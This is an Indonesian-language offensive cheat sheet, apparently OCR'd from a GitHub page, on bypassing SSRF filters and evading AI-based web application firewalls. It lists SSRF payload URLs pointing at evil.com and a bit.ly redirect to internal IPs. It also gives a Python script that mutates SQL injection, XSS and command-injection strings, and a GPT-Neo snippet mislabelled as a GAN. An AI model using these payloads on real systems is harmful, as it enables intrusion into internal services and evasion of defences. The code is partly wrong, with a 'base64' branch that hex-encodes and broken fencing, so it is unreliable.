 
## 🌐 4. Server-Side Request Forgery (SSRF) Bypass

SSRF memungkinkan penyerang mengakses server internal yang seharusnya tidak bisa diakses.

# 📌 Teknik Bypass SSRF

4.1. Bypass dengan DNS Rebinding

Gunakan domain sementara yang berubah menjadi IP internal.
✅ Payload dengan DNS Rebinding:
```
http://evil.com.redirect-to.localhost/
```
4.2. Bypass dengan URL Shortener

Gunakan URL Shortener agar WAF tidak mengenali domain target.
✅ Payload dengan bit.ly:
```
http://bit.ly/redirect-to-internal-ip
```

---

## 🤖 5. AI-Based WAF Evasion

WAF modern menggunakan Machine Learning (ML) dan AI untuk mendeteksi pola serangan. Kita bisa menggunakan Adversarial AI Attacks untuk membypassnya.

# 📌 Teknik AI-Based Bypass

5.1. Dynamic Payload Mutation

## Gunakan AI untuk membuat payload baru berdasarkan respons WAF.
✅ Contoh script Python untuk adaptive payloads:
```
import random

payloads = ["' OR 1=1 --", "<script>alert(1)</script>", "; ls -la"]
mutations = ["base64", "url_encode", "hex"]

def mutate_payload(payload, method):
    if method == "base64":
        return payload.encode("utf-8").hex()
    elif method == "url_encode":
        return payload.replace(" ", "%20").replace("'", "%27")
    return payload

selected_payload = random.choice(payloads)
selected_method = random.choice(mutations)

print(f"Generated Adaptive Payload: {mutate_payload(selected_payload, selected_method)}")

5.2. Adversarial Machine Learning

Melatih model AI untuk menghasilkan payload yang tidak terdeteksi oleh WAF berbasis AI.

✅ Contoh penggunaan GAN (Generative Adversarial Network) untuk payload bypass:

from transformers import pipeline

generator = pipeline("text-generation", model="EleutherAI/gpt-neo-2.7B")
```